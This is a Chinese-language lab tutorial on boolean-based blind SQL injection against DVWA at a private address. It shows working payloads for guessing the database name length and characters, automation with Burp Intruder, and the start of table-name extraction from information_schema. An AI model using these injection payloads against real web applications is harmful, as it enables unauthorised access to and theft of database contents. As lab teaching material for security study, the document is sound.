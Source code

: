 

## 黑盒情况下进行布尔盲注入

步骤：

​	我们首先需要判断注入是否为布尔注入，判断完后就可以获取数据库的长度，得到长度再查询库名，然后查询表名，字段，字段内容。。。

### 布尔盲注入查询长度

​	通过构造如下sql语句进行数据库长度的查询

```mysql
1' and if(length(database())=4,1,0)-- 
```

判断出长度为4

### 布尔盲注入判断库名

这一步操作其实就是通过遍历

```
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.@_
```

与语句进行整合判断出是否返回1

```mysql
1' and if(SUBSTRING(database(),1,1)='$d',1,0)-- 
```

当然了，我们手动进行一个一个测试肯定很慢，那么我们可以借助burp来进行如此操作

带有构造sql语句的url

```
http://192.168.18.137/01/vulnerabilities/sqli_blind/?id=1%27%20and%20if(SUBSTRING(database(),1,1)=%27d%27,1,0)--%20&Submit=Submit#
```

再burp里面抓包然后送入intruder

先清除变量 然后再将数字和字母设为变量 攻击类型选择 `cluster bomb`

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232208426-323266936.png)


然后就是payloads里面两个变量的设置 然后开始攻击就行 跑出来的状态码为200即为成功！

获得的数据库名为 dvwa

接着我们通过库名来获取表名

```
1' and if(SUBSTRING((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1),1,1)='g',1,0)-- 
```

同样通过burp进行抓包

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232216969-1395888437.png)
